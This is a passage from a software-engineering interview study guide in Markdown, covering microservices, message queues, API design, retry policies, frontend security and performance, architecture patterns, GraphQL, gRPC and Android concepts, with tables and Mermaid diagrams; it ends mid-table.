

---

## 11. Monolith vs. Microservice



### Trade-offs

| | Monolith | Microservices |
|---|---|---|
| **Deployment** | Single deploy unit | Independent per service |
| **Scaling** | Scale the whole app | Scale individual services |
| **Complexity** | Simple to start | High operational overhead |
| **Technology** | Single stack | Polyglot (each service can differ) |
| **Failures** | One failure = whole app | Isolated failure |
| **Transactions** | ACID | Eventual consistency, sagas |

### Containerization (Docker)
Packages application + all dependencies into a portable **container**. Eliminates "works on my machine" issues. Core to CI/CD pipelines.

---

## 12. Message Queue

### Sync vs Async



### Pub-Sub Model



### Reliable Messaging: Retry + DLQ



### Message Broker Comparison

| Tool | Type | Model | Best for |
|---|---|---|---|
| **Kafka** | Streaming platform | Pull, log-based | High-throughput pipelines, event streaming |
| **RabbitMQ** | Message broker | Push, AMQP | Complex routing, guaranteed delivery |
| **AWS SQS** | Managed queue | Pull | Decoupling microservices (1-to-1) |
| **AWS SNS** | Managed pub-sub | Push | Fan-out notifications (1-to-many) |

### Idempotency
An operation that can be performed multiple times with the **same result** as once. Critical for retry safety.
> Example: Payment API with a unique `transaction_id` — duplicate requests are ignored.

---

## 13. Security (Backend)

### Authentication vs Authorization

```mermaid
graph LR
    Login["Login Request"] --> AuthN["Authentication\n'Who are you?'\nVerify credentials"]
    AuthN -->|"Valid"| Token["Issue JWT Token"]
    Token --> Request["API Request + Token"]
    Request --> AuthZ["Authorization\n'What can you do?'\nCheck permissions"]
    AuthZ -->|"Allowed"| Resource["Access Resource"]
    AuthZ -->|"Denied"| Forbidden["403 Forbidden"]

    style AuthN fill:#0369a1,color:#fff
    style AuthZ fill:#7c3aed,color:#fff
```

### JWT Structure
```
Header.Payload.Signature

Header:  { "alg": "HS256", "typ": "JWT" }
Payload: { "sub": "user123", "role": "admin", "exp": 1719000000 }
Signature: HMACSHA256(base64(header) + "." + base64(payload), secret)
```

### OAuth 2.0 Flow
See the [AI Architect concepts guide](./AI_Architect_Interview_Concepts.md#14-security--oauth-jwt-iam) for the full OAuth sequence diagram.

---

## 14. API Evolution & Backward Compatibility

**Backward Compatibility** means a new API version must not break existing clients.

### Strategies

| Strategy | How | Example |
|---|---|---|
| **URI versioning** | Version in path | `/api/v1/users` → `/api/v2/users` |
| **Header versioning** | Custom header | `Accept: application/vnd.myapi.v2+json` |
| **Query param** | Version as param | `/users?version=2` |
| **Additive changes** | Only add new fields | Safe — old clients ignore new fields |

> **Rules:** Never remove/rename fields in a live version. Deprecate first, remove in a major version bump.

---

## 15. Retry Policies

### Retry with Exponential Backoff

```mermaid
graph LR
    Req["Request"] --> Try1["Attempt 1"]
    Try1 -->|"Fail"| Wait1["Wait 1s"]
    Wait1 --> Try2["Attempt 2"]
    Try2 -->|"Fail"| Wait2["Wait 2s"]
    Wait2 --> Try3["Attempt 3"]
    Try3 -->|"Fail"| Wait3["Wait 4s (+ jitter)"]
    Wait3 --> Try4["Attempt 4"]
    Try4 -->|"Max retries"| DLQ2["Dead Letter / Error"]
    Try4 -->|"Success ✅"| Done["Response"]

    style Done fill:#059669,color:#fff
    style DLQ2 fill:#dc2626,color:#fff
```

**Best practices:**
- Use **exponential backoff** to avoid overwhelming a failing service.
- Add **jitter** (random delay) to prevent thundering herd.
- Set a **max retry limit** to avoid infinite loops.
- Only retry **idempotent** operations.

---

## 16. Swift (iOS)

Swift is Apple's modern, open-source programming language for **iOS, macOS, watchOS, and tvOS** development.

**Key features:**
- **Type safety** — strong typing prevents runtime errors
- **Optionals** — explicit nil handling prevents null pointer crashes
- **Protocol-oriented** — composition over inheritance
- **Memory safety** — ARC (Automatic Reference Counting)
- **Swift concurrency** — `async/await`, structured concurrency (Swift 5.5+)
- **Interoperability** — works with Objective-C code

> **Interview Language:** "Swift is Apple's modern, safe, and performant language. Its **optional chaining** and **strong type system** prevent common crashes. For UI, I use **SwiftUI** for declarative interfaces and **UIKit** for complex, custom views."

---

## 17. Security Best Practices for UI/Frontend

### Threat Landscape

```mermaid
mindmap
  root((Frontend Security))
    XSS
      Inject malicious scripts
      Steal cookies/tokens
      Sanitize all user input
      Use CSP headers
    CSRF
      Cross-site forged requests
      Use CSRF tokens
      SameSite cookies
    CORS
      Cross-origin requests
      Whitelist trusted origins
      Preflight OPTIONS check
    MITM
      Intercept traffic
      Enforce HTTPS
      HSTS header
    DDoS
      Flood with requests
      CDN + Rate limiting
    Auth Issues
      JWT storage
      Never in localStorage
      Use httpOnly cookies
```

### XSS Prevention
- **Sanitize** all user input before rendering in DOM.
- Use **`textContent`** not `innerHTML` for user-generated content.
- Set **Content Security Policy (CSP)** header.

### CSP (Content Security Policy)
HTTP response header defining which sources are trusted:
```
Content-Security-Policy: default-src 'self'; script-src 'self' cdn.example.com
```
Prevents loading scripts from untrusted domains — neutralizes most XSS.

### CORS
Browser security feature. Server declares which origins are allowed via `Access-Control-Allow-Origin` header. Browser blocks requests from non-whitelisted origins.

### Authentication & Authorization in UI
- **Authentication** → handled by backend; frontend just captures and sends credentials.
- **Authorization** → UI hides/shows elements by role, but **backend always re-verifies** — never trust frontend-only checks.

---

## 18. Performance & Optimization

### Core Web Vitals

| Metric | What it measures | Target |
|---|---|---|
| **LCP** (Largest Contentful Paint) | Loading performance | < 2.5s |
| **FID / INP** (Interaction to Next Paint) | Responsiveness | < 200ms |
| **CLS** (Cumulative Layout Shift) | Visual stability | < 0.1 |

### Optimization Techniques

```mermaid
mindmap
  root((Frontend Performance))
    Code Splitting
      Lazy load routes
      Dynamic imports
      Reduce initial bundle
    Tree Shaking
      Remove dead code
      Webpack / Vite / Rollup
    Caching
      Browser cache headers
      Service Worker
      CDN caching
    Images
      WebP / AVIF format
      Lazy loading
      Responsive images srcset
    Network
      HTTP/2 multiplexing
      Preload critical assets
      Prefetch next page
    Rendering
      SSR for first paint
      CSR for interactions
      Streaming SSR
```

### Rendering Strategies

| Strategy | When rendered | SEO | TTFB | Use case |
|---|---|---|---|---|
| **CSR** (Client-Side Rendering) | Browser | ❌ Poor | Fast | Dashboards, apps |
| **SSR** (Server-Side Rendering) | Server per request | ✅ | Slower | Marketing pages |
| **SSG** (Static Site Generation) | Build time | ✅ | Fastest | Blogs, docs |
| **ISR** (Incremental Static Regeneration) | Build + on-demand | ✅ | Fast | Next.js, e-commerce |

---

## 19. Testing

### Testing Pyramid

```mermaid
graph TD
    E2E["🔺 E2E Tests\n(Cypress, Playwright)\nFew, Slow, High confidence"]
    Integration["🔷 Integration Tests\nComponent interactions\nAPI + UI together"]
    Unit["🔷 Unit Tests\n(Jest, Vitest)\nMany, Fast, Isolated"]

    Unit --> Integration --> E2E
```

| Type | Scope | Speed | Confidence |
|---|---|---|---|
| **Unit** | Single function/component | ⚡ Fast | Low (isolated) |
| **Integration** | Multiple units together | Medium | Medium |
| **E2E** | Full user flow | 🐢 Slow | High (real behavior) |
| **Visual regression** | UI snapshots | Medium | UI-specific |

> **Interview Language:** "We follow the **testing pyramid** — many fast unit tests at the base, fewer integration tests in the middle, and a small number of E2E tests at the top. Each layer catches different categories of bugs."

---

## 20. Frontend Architecture Patterns

### MVC / MVP / MVVM

```mermaid
graph LR
    subgraph MVC["MVC"]
        M1["Model"] <--> C1["Controller"]
        C1 --> V1["View"]
        V1 -.->|"User action"| C1
    end
    subgraph MVVM["MVVM"]
        M2["Model"] <--> VM["ViewModel\n(Observable state)"]
        VM <-->|"Data binding"| V2["View"]
    end
```

| Pattern | Controller/VM role | Best for |
|---|---|---|
| **MVC** | Controller mediates | Traditional web apps |
| **MVP** | Presenter handles logic | Android (older) |
| **MVVM** | ViewModel holds state | React, Vue, SwiftUI, Angular |
| **Flux/Redux** | Unidirectional data flow | Complex state, React |

### State Management

```mermaid
graph LR
    Action["User Action"] --> Dispatcher["Dispatcher"]
    Dispatcher --> Store["Store\n(Single source of truth)"]
    Store --> View["View re-renders"]
    View -->|"Triggers"| Action
```

---

## 21. Modern Architectural Styles

### Clean Architecture

```mermaid
graph TD
    subgraph CA["Clean Architecture (Concentric)"]
        E["Entities\n(Business Rules)"]
        UC["Use Cases\n(Application Logic)"]
        A["Adapters\n(Controllers, Presenters)"]
        F["Frameworks & Drivers\n(UI, DB, Web)"]
    end
    F --> A --> UC --> E
    style E fill:#dc2626,color:#fff
    style UC fill:#f59e0b,color:#000
    style A fill:#0369a1,color:#fff
    style F fill:#374151,color:#fff
```

**Dependency Rule:** Dependencies always point **inward**. Inner layers know nothing about outer layers.

### Micro-Frontends (MFE)

```mermaid
graph TB
    Shell["Shell / Host App\n(App Router)"] --> Team1["Team 1 MFE\n(Checkout)"]
    Shell --> Team2["Team 2 MFE\n(Product Listing)"]
    Shell --> Team3["Team 3 MFE\n(User Profile)"]

    Team1 --> SharedLib["Shared Libraries\n(Design System, Auth)"]
    Team2 --> SharedLib
    Team3 --> SharedLib

    style Shell fill:#7c3aed,color:#fff
```

**MFE Benefits:** Independent deployment, technology diversity, team autonomy.
**MFE Challenges:** Shared state, CSS isolation, performance (duplicate dependencies).

### BFF – Backend for Frontend

```mermaid
graph LR
    MobileApp["📱 Mobile App"] --> BFF_Mobile["BFF Mobile\n(Optimized payloads)"]
    WebApp2["🖥️ Web App"] --> BFF_Web["BFF Web\n(Full payloads)"]
    BFF_Mobile --> Microservices["Backend Microservices"]
    BFF_Web --> Microservices

    style BFF_Mobile fill:#059669,color:#fff
    style BFF_Web fill:#0369a1,color:#fff
```

Each client has its own backend layer. BFF aggregates, transforms, and optimizes API responses specifically for each client type.

---

## 22. UI Design Concepts

### Rendering in the Browser

```mermaid
graph LR
    HTML["HTML"] --> DOM["DOM Tree"]
    CSS["CSS"] --> CSSOM["CSSOM Tree"]
    DOM & CSSOM --> Render["Render Tree"]
    Render --> Layout["Layout\n(Calculate positions)"]
    Layout --> Paint["Paint\n(Draw pixels)"]
    Paint --> Composite["Composite\n(GPU layers)"]
```

**Critical path optimization:** Minimize render-blocking resources (inline critical CSS, defer non-critical JS).

### Accessibility (a11y)

| Principle | What it means | Example |
|---|---|---|
| **Proper Contrast** | WCAG 4.5:1 ratio for text | Dark text on white bg |
| **ARIA roles** | Semantic meaning for screen readers | `role="button"`, `aria-expanded` |
| **Keyboard navigation** | All interactions via keyboard | Tab order, focus indicators |
| **Alt text** | Describe images for screen readers | `alt="Profile photo of John"` |

---

## 23. Data Model & API Model

### Client-Side Data Models (Social Feed Example)

```
User {
  id: string
  username: string
  profilePictureUrl: string
}

Post {
  id: string
  author: User
  content: string
  likes: number
  comments: Comment[]
  createdAt: timestamp
}
```

### Choosing an API Style

| Style | Protocol | Best for | Tradeoffs |
|---|---|---|---|
| **REST** | HTTP | Standard CRUD, public APIs | Over/under fetching |
| **GraphQL** | HTTP | Flexible queries, mobile | Complex caching |
| **gRPC** | HTTP/2 | Microservices, low latency | Not browser-native |
| **WebSocket** | TCP | Real-time bidirectional | Server resources |
| **SSE** | HTTP | Server push, notifications | One-direction only |

---

## 24. API Models & Communication Styles

### Long Polling vs WebSocket vs SSE

```mermaid
sequenceDiagram
    participant C as Client
    participant S as Server

    Note over C,S: Long Polling
    C->>S: Request (hold until data)
    S-->>C: Response (new data available)
    C->>S: Immediately re-polls

    Note over C,S: WebSocket
    C->>S: Upgrade: websocket
    S-->>C: 101 Switching Protocols
    S-->>C: Push data anytime
    C-->>S: Send data anytime

    Note over C,S: SSE
    C->>S: GET /events (EventSource)
    S-->>C: data: event1
    S-->>C: data: event2 (push only)
```

---

## 25. Module Federation & MFE

**Module Federation** (Webpack 5) allows multiple independent builds to share code at runtime.

```mermaid
graph TB
    Host["Host App\n(Shell)"] -->|"Loads at runtime"| Remote1["Remote 1\n(Checkout MFE)"]
    Host -->|"Loads at runtime"| Remote2["Remote 2\n(Product MFE)"]
    Remote1 & Remote2 -->|"Shared"| Shared["react@18\nreact-dom@18\nDesign System"]

    style Host fill:#7c3aed,color:#fff
    style Shared fill:#059669,color:#fff
```

**Key benefit:** Each remote team deploys independently. Host loads the latest version at runtime without rebuilding.

---

## 26. BFF – Backend for Frontend

A dedicated backend layer per frontend client (mobile, web, TV). Aggregates multiple microservice calls into a single optimized response.

**Problem it solves:** Mobile needs a lightweight payload; web needs rich data — the same backend can't efficiently serve both.

```mermaid
graph LR
    Mobile["📱 Mobile"] --> BFF_M["BFF Mobile"] --> UserSvc2["User Service"]
    Web["🖥️ Web"] --> BFF_W["BFF Web"] --> UserSvc2
    BFF_M --> OrderSvc2["Order Service"]
    BFF_W --> OrderSvc2
    BFF_W --> RecoSvc["Recommendation Service"]
```

---

## 27. GraphQL

**GraphQL** is a query language for APIs that lets clients request **exactly the data they need** — no more, no less.

```mermaid
graph LR
    Client2["Client"] -->|"Single query"| GQL["GraphQL\n/graphql"]
    GQL --> R1["User Resolver"]
    GQL --> R2["Orders Resolver"]
    GQL --> R3["Products Resolver"]
    R1 & R2 & R3 --> Response["Single aggregated\nJSON response"]

    style GQL fill:#e535ab,color:#fff
```

| Feature | REST | GraphQL |
|---|---|---|
| **Endpoint** | Multiple (`/users`, `/orders`) | Single (`/graphql`) |
| **Fetching** | Fixed response shape | Client-defined shape |
| **Over-fetching** | ✅ Common | ❌ Eliminated |
| **Under-fetching** | ✅ Requires multiple calls | ❌ Eliminated |
| **Caching** | HTTP cache (simple) | Client-side (complex) |
| **Type system** | Optional | ✅ Schema-first |

> **Interview Language:** "GraphQL solves the **over-fetching and under-fetching** problems of REST. The client specifies exactly what fields it needs in a single query, which is especially valuable for **mobile clients** where bandwidth is constrained."

---

## 28. gRPC

**gRPC** is a high-performance, open-source **Remote Procedure Call** framework from Google. Uses **HTTP/2** and **Protocol Buffers (protobuf)** for binary serialization.

```mermaid
graph LR
    Client3["Client Service"] -->|"Protobuf binary\nHTTP/2"| gRPC_Server["gRPC Server"]
    gRPC_Server --> Handler["Service Handler\n(auto-generated stubs)"]

    style gRPC_Server fill:#4285F4,color:#fff
```

| Feature | REST | gRPC |
|---|---|---|
| **Protocol** | HTTP/1.1 | HTTP/2 |
| **Format** | JSON (text) | Protobuf (binary) |
| **Speed** | Slower | 7–10x faster |
| **Streaming** | Limited | ✅ Bidirectional |
| **Browser support** | ✅ Native | ❌ Needs grpc-web |
| **Best for** | Public APIs | Microservice-to-microservice |

> **Interview Language:** "gRPC is our choice for **internal microservice communication**. It's significantly faster than REST due to **HTTP/2 multiplexing** and **protobuf binary encoding**. It also supports **bidirectional streaming**, which is ideal for real-time data pipelines."

---

## 29. Domain-Driven Architecture

**Domain-Driven Design (DDD)** is an approach to structuring software around the **business domain** rather than technical concerns.

```mermaid
graph TB
    BC1["Bounded Context:\nOrdering"]
    BC2["Bounded Context:\nInventory"]
    BC3["Bounded Context:\nShipping"]

    BC1 <-->|"Domain Events\nAnti-Corruption Layer"| BC2
    BC2 <-->|"Domain Events"| BC3

    subgraph BC1["Ordering Bounded Context"]
        Order["Order Aggregate"]
        OrderItem["OrderItem Entity"]
        OrderRepo["Order Repository"]
    end
```

**Key DDD Concepts:**

| Concept | Definition |
|---|---|
| **Domain** | The business problem space |
| **Bounded Context** | A defined boundary where a domain model is valid |
| **Aggregate** | A cluster of entities treated as a unit (with one root) |
| **Entity** | An object with a unique identity |
| **Value Object** | An object defined only by its attributes (no identity) |
| **Domain Event** | Something that happened in the domain (e.g., `OrderPlaced`) |
| **Repository** | Interface for persisting and retrieving aggregates |

---

## 30. Pagination (Offset vs. Cursor)

```mermaid
graph LR
    subgraph Offset["Offset Pagination"]
        O1["GET /posts?page=3&limit=10\n→ SKIP 20 ROWS TAKE 10\nProblem: Inconsistent on insert/delete\nSlow on large OFFSET"]
    end
    subgraph Cursor["Cursor / Keyset Pagination"]
        C1["GET /posts?cursor=id_xyz&limit=10\n→ WHERE id > 'xyz' LIMIT 10\nStable, fast, works with inserts\nNo skipping rows in DB"]
    end
```

| | Offset | Cursor/Keyset |
|---|---|---|
| **Performance** | Slow at large pages (OFFSET scan) | Fast (index seek) |
| **Stability** | ❌ Rows shift on insert/delete | ✅ Stable |
| **Random access** | ✅ Jump to any page | ❌ Sequential only |
| **Implementation** | Simple | Slightly more complex |
| **Best for** | Admin panels, small datasets | Infinite scroll, large datasets |

---

## 31. Debouncing & Throttling

Both control how often a function executes in response to frequent events.

```mermaid
graph LR
    Events["Rapid Events\n(typing, scrolling, resize)"] --> Debounce["Debounce\nWait N ms after\nlast event\nExample: search input"]
    Events --> Throttle["Throttle\nExecute at most\nevery N ms\nExample: scroll handler"]

    style Debounce fill:#0369a1,color:#fff
    style Throttle fill:#059669,color:#fff
```

| | Debounce | Throttle |
|---|---|---|
| **Fires when** | After N ms of inactivity | At most once per N ms |
| **Use case** | Search autocomplete, form validation | Scroll events, resize, API polling |
| **Pattern** | Delay + cancel | Rate limiting |

---

## 32. SSE & Infinite Scroll

### Server-Sent Events (SSE)
One-way server → client streaming over HTTP. Browser auto-reconnects. Simple to implement.

```javascript
// Client
const es = new EventSource('/events');
es.onmessage = (e) => console.log(e.data);

// Server sends:
// data: {"type": "notification", "message": "New order placed"}
```

### Infinite Scroll Implementation

```mermaid
graph LR
    Scroll["User scrolls near bottom\n(Intersection Observer)"] --> Trigger["Trigger load more"]
    Trigger --> API["Fetch next page\n(cursor-based)"]
    API --> Append["Append items to DOM"]
    Append --> Virtualize["Virtualize DOM\n(only render visible rows)\nReact Virtual / TanStack Virtual"]
```

**Key concern:** Without **DOM virtualization**, rendering thousands of items causes memory/performance issues.

---

## 33. Design Patterns & Anti-Patterns

### Common Design Patterns

```mermaid
mindmap
  root((Design Patterns))
    Creational
      Singleton
        One instance only
      Factory
        Create objects without specifying class
      Builder
        Step-by-step construction
    Structural
      Adapter
        Incompatible interfaces
      Decorator
        Add behavior dynamically
      Facade
        Simplified interface
    Behavioral
      Observer
        Event subscription
      Strategy
        Interchangeable algorithms
      Command
        Encapsulate requests
```

### Common Anti-Patterns

| Anti-Pattern | Problem | Solution |
|---|---|---|
| **God Object** | One class does everything | Single Responsibility Principle |
| **Spaghetti Code** | Tangled, unstructured code | Modular architecture |
| **Prop Drilling** | Passing props through many layers | Context / state management |
| **N+1 Query** | 1 query + N more for related data | JOINs, DataLoader, batching |
| **Magic Numbers** | Unnamed constants in code | Named constants / enums |

---

## 34. Clean Architecture

```mermaid
graph TD
    subgraph Layers["Clean Architecture Layers (inside → out)"]
        E2["🔴 Entities\nCore business rules\nNo dependencies"]
        UC2["🟡 Use Cases\nApplication business logic\nDepends on Entities"]
        A2["🔵 Interface Adapters\nControllers, Presenters, Gateways\nDepends on Use Cases"]
        F2["⚫ Frameworks & Drivers\nUI, DB, Web, External APIs\nDepends on Adapters"]
    end
    F2 --> A2 --> UC2 --> E2
```

**The Dependency Rule:** Source code dependencies only point **inward**. Nothing in an inner circle knows anything about the outer circles.

**Benefits:** Testable (entities require no framework), flexible (swap UI or DB without changing business logic), maintainable.

---

## 35. Composable Architecture (TCA)

**The Composable Architecture (TCA)** is a library for building applications in Swift in a consistent, understandable, and testable way. Created by Point-Free.

```mermaid
graph LR
    View3["SwiftUI View"] -->|"send action"| Store["Store\n(State + Reducer)"]
    Store -->|"new state"| View3
    Store --> Reducer["Reducer\n(State, Action) → State + Effect"]
    Reducer -->|"side effect"| Effect["Effect\n(async work, API calls)"]
    Effect -->|"action"| Store

    style Store fill:#f97316,color:#fff
    style Reducer fill:#7c3aed,color:#fff
```

**Core concepts:** `State`, `Action`, `Reducer`, `Store`, `Effect`.
**Benefits:** Unidirectional data flow, easy unit testing, composable feature modules.

---

## 36. Android Concepts

### ViewModel vs LiveData

| Feature | ViewModel | LiveData |
|---|---|---|
| **Purpose** | Store & manage UI-related data | Observable data holder |
| **Lifecycle aware** | Survives configuration changes | Observes lifecycle, auto-unsubscribes |
| **Modern alternative** | Still used | **StateFlow / SharedFlow** (Kotlin) |

### Fragment vs Activity

```mermaid
graph TD
    Activity2["Activity\n(Full screen, independent lifecycle)"] --> FragA["Fragment A\n(Left panel)"]
    Activity2 --> FragB["Fragment B\n(Right panel)"]
    FragA -.->|"Reuse in"| Activity3["Another Activity"]
```

### Service vs BroadcastReceiver

| Component | Purpose | Runs in |
|---|---|---|
| **Service** | Long-running background task | Main thread (manage threading yourself) |
| **IntentService** *(deprecated)* | Sequential background tasks | Worker thread (auto) |
| **BroadcastReceiver** | System/app-wide event listener | Main thread, short-lived |

### Looper, Handler, MessageQueue

```mermaid
graph LR
    Thread["Worker Thread"] -->|"post message"| MQ["MessageQueue"]
    MQ --> Looper2["Looper\n(infinite loop)"]
    Looper2 --> Handler["Handler\n(dispatches messages)"]
    Handler --> MainThread["Main Thread\n(UI updates)"]
```

### Memory Leaks in Android
- **Common causes:** Static references to Context, unregistered listeners, inner class holding outer reference.
- **Prevention:** Use `WeakReference`, unregister in `onDestroy`, use `lifecycleScope` for coroutines.
- **Tools:** LeakCanary, Android Profiler.

### AIDL (Android Interface Definition Language)
Enables **Inter-Process Communication (IPC)** between apps in separate processes. Define interface in `.aidl` file; build tools generate Java/Kotlin stubs.

### SQLite in Android
Embedded relational database. Access via `SQLiteOpenHelper` or **Room** (recommended ORM that provides compile-time SQL verification).

### Parcelable vs Serializable

| | Serializable | Parcelable |
|---|---|---|
| **Language** | Java | Android-specific |
| **Performance** | Slow (reflection) | Fast (manual, no reflection) |
| **Implementation** | Easy (just implement interface) | Verbose (manual implementation) |
| **Modern** | Avoid | ✅ Use (or `@Parcelize` annotation) |

---

## 37. Eventual Consistency & Event Sourcing

### Eventual Consistency
In a distributed system, after a write, all replicas will **eventually** converge to the same value — but not immediately.

```mermaid
sequenceDiagram
    participant Client4
    participant Primary2 as Primary DB
    participant Replica1 as Replica 1
    participant Replica2 as Replica 2

    Client4->>Primary2: Write: user.name = "Alice"
    Primary2-->>Client4: ACK (success)
    Note over Replica1,Replica2: Replication lag (50ms)
    Client4->>Replica1: Read: user.name
    Replica1-->>Client4: "Bob" (stale data!)
    Primary2->>Replica1: Replicate
    Primary2->>Replica2: Replicate
    Note over Replica1,Replica2: Now consistent: "Alice"
```

### Event Sourcing
Instead of storing current state, store a **sequence of events** that led to the current state.

```mermaid
graph LR
    E1["OrderCreated"] --> E2["ItemAdded"]
    E2 --> E3["PaymentApplied"]
    E3 --> E4["OrderShipped"]
    E4 --> CurrentState["Current State:\nOrder #123 - Shipped"]

    style CurrentState fill:#059669,color:#fff
```

**Benefits:** Full audit trail, replay to any point in time, temporal queries.
**Use cases:** Banking, e-commerce orders, CQRS systems.

---

## 38. Tree Shaking & Lightweight Injection Token

### Tree Shaking
**Dead code elimination** at build time. Bundlers (Webpack, Vite, Rollup) analyze imports and only include code actually used.

```
// Only debounce and throttle used:
import { debounce, throttle } from 'lodash-es'

// Tree shaker removes all other lodash functions from bundle ✅
```

### Lightweight Injection Token (Angular)
An `InjectionToken` that doesn't carry its type at runtime, keeping bundle size small. Used for optional or interface-typed dependencies.

```typescript
export const MY_CONFIG = new InjectionToken<AppConfig>('my-config');
```

---

## 39. Elasticsearch & ELK Stack

*(See [Section 4](#4-aws-elasticsearch--elk-stack) for the full ELK Stack diagram)*

### Elasticsearch Core Concepts

| Concept | Description |
|---|---|
| **Index** | Like a database table; stores documents |
| **Document** | A JSON object stored in an index |
| **Inverted Index** | Maps terms → documents (enables fast full-text search) |
| **Shard** | A horizontal partition of an index (enables distribution) |
| **Replica** | A copy of a shard (for availability and read scaling) |
| **Mapping** | Schema definition for an index |
| **Query DSL** | JSON-based query language |

### ViewModel vs LiveData in Android (Modern Approach)

```mermaid
graph LR
    VM["ViewModel\n(StateFlow<UiState>)"] -->|"collects in"| View4["Composable / Fragment"]
    View4 -->|"events"| VM
    VM --> Repo["Repository"]
    Repo --> Network["Network / DB"]

    style VM fill:#4285F4,color:#fff
```

---

## 40. ANR vs. Crash (Android)

```mermaid
graph TD
    Problem["App Failure"] --> Crash2["💥 Crash\nUnhandled exception\n(NullPointerException)\nApp closes immediately\nStack trace generated"]
    Problem --> ANR2["🥶 ANR\nUI thread blocked > 5s\nApp freezes\nUser sees 'Wait / Force Close' dialog\nThread dump generated"]

    Crash2 --> Fix1["Fix: Handle exceptions\nTry-catch, null checks"]
    ANR2 --> Fix2["Fix: Move work off main thread\nasync/await, coroutines\nRoom async queries"]

    style Crash2 fill:#dc2626,color:#fff
    style ANR2 fill:#f59e0b,color:#000
    style Fix1 fill:#059669,color:#fff
    style Fix2 fill:#059669,color:#fff
```

### ANR vs Crash Comparison

| Feature | Crash | ANR |
